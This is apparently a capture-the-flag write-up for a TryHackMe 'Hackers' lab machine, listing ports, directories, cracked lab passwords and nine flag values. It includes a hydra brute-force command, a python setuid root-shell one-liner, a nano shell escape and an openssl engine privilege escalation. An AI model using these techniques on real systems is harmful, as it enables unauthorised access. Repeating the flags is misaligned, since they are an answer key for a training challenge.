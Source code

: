 # KOTH HACKERS<br />

-------------
## IP:`10.10.68.205`<br />

----------------------
### Open Ports -<br />

```
21
22
80
9999
```

----------------------
#### hidden directories -<br />

```
/news
/contact
/img
/staff
/backdoor
```

----------------------
> first flag -<br />

```
thm{b63670f7192689782a45d8044c63197f}
```
** in the source code of http://10.10.201.114 **<br />

> second flag -<br />

```
thm{678d0231fb4e2150afc1c4e336fcf44d}
```
** in the hidden files on anonymous login with ftp `ls  -la` **<br />

-----------------------
##### Credentials -<br />


username: rcampbell<br />
password: cinderella<br />

username: gcrawford<br />
password: evelina<br />

*** via hydra ***<br />

-----------------------
> third flag -<br />

```
thm{12361ad240fec43005844016092f1e05}
```
** in the hidden files in ftp login with rcampbell `ls -la` ** <br />

-----------------------
##### Login via ssh with rcampbell [rcampbell:cinderella] and search for `capabilities`<br />

```
getcap -r / 2>/dev/null
```
```
python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
```

##### Crack the passphrase for `id_rsa` of gcrawford<br />

```
id_rsa:stephani
```
##### privilege escalation of `gcrawford` user<br/>

```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```
##### Crack the password for http://10.10.68.205/backdoor<br />

username: plague<br />
password: tonyhawk<br />

```
hydra -l plague -P /usr/share/wordlists/rockyou.txt 10.10.68.205 http-post-form "/api/login:username=^USER^&password=^PASS^:Incorrect"
```

##### You can get a rev shell with user `production` logged in and can achieve privilage escalation using -<br />

```
sudo openssl req -engine ./shell.so
```

-----------------------
> fourth flag - <br />

```
thm{b94f8d2e715973f8bc75fe099c8492c4}
```
** in the root directory **<br />
> fifth flag -<br />

```
thm{d8deb5f0526ec81f784ce68e641cde40}
```
** in the home directory of gcrawford, within business.txt **<br />

> sixth flag - <br />

```
thm{879f3238fb0a4bf1c23fd82032d237ff}
```
** in the home directory of production **<br />

> seventh flag - <br />

```
thm{3ce2fe64055d3b543360c3fc880194f8}
```
** in the home directory of tryhackme **<br />

> eighth flag -

```
thm{2124a8091b664c98a0e5bdbb7a4fa1cb}
```
** in /etc/vsftpd.conf **<br />

> ninth flag -

```
thm{068754683abe0bf81fb621ce55a91964}
```
** in /etc/ssh/sshd_config **
